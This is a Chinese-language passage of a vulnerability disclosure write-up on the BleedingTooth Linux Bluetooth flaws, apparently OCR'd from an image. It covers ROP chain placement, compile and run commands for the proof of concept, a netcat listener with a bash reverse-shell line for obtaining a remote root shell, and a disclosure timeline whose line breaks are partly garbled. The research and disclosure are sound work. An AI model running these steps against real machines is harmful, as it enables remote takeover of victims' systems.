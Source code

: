 此 ROP 链应放置在伪造struct bpf_prog  
对象内的偏移量 0x40 处，并cmd_addr  
应指向植入内核内存中的 bash 命令。一切就绪后，我们终于可以从受害者那里获取 root shell。  
## 概念验证  
  
概念验证可在  
https://github.com/google/security-research/tree/master/pocs/linux/bleedingtooth  
获得。  
  
使用以下方法编译：  
```
$ gcc -o exploit exploit.c -lbluetooth
```  
  
并执行如下：  
```
$ sudo ./exploit target_mac source_ip source_port
```  
  
在另一个终端中运行：  
```
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```  
  
如果成功，则可以使用以下命令生成计算：  
```
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```  
  
有时，受害者可能会Bluetooth: Trailing bytes: 6 in sframe在 dmesg 中打印。如果 kmalloc-128 slab spray 未成功，就会发生这种情况。在这种情况下，我们需要重复利用漏洞。关于名称“BadKarma”的轶事是，BadKarma漏洞偶尔会在早期成功退出sk_filter()，例如当字段sk_filter为 0 时，并继续执行 A2MP 接收处理程序并发回 A2MP 响应数据包。有趣的是，当这种情况发生时，受害者的机器并没有崩溃 - 相反，攻击者的机器会崩溃；因为，正如我们之前了解到的，A2MP 协议使用的 ERTM 实现在设计上会触发类型混淆。  
  
时间线  
  
2020-07-06 – Google 内部发现BadVibes  
漏洞   
  
2020-07-20 – Google 内部发现BadKarma和BadChoice漏洞   
  
2020-07-22 – Linus Torvalds向 BlueZ报告独立发现BadVibes漏洞，并给出 7 天的披露时间表   
  
2020-07-24 – 向BlueZ 主要开发人员（英特尔）  
报告的三个 BleedingTooth 漏洞的技术细节   
  
2020-07-29 – 英特尔计划于   
  
2020-07-31 与谷歌举行会议   
  
2020-07-30 – BadVibes修复程序发布   
  
2020-07-31 – 英特尔将披露日期定为   
  
2020-09-01，并由英特尔协调进行先前的 NDA 披露。知情方获准通过 kconfig 禁用 BT_HS，并提供非安全提交消息   
  